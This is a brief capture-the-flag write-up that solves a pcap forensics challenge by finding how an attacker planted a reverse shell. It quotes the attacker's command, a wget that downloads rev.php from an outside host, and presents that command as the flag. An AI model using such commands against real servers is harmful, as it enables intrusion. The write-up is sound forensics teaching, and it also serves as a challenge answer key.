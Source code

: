 # Shell

> What did the attacker do for the reverse shell in the server?

Download the pcap file [here](file/challenge.zip)

# How to Solve

We need look the pcap file and see the http request with filter string `terminal.php`


[Image extracted text: [Image not found]]


Seems there a command to spawn a file, so we need confirm the file


[Image extracted text: [Image not found]]


Then it a sure the command is `wget http://192.168.1.7:8000/rev.php`

Because the format is `BDSEC{command}`

Then flag is

```
BDSEC{wget_http://192.168.1.7:8000/rev.php}
```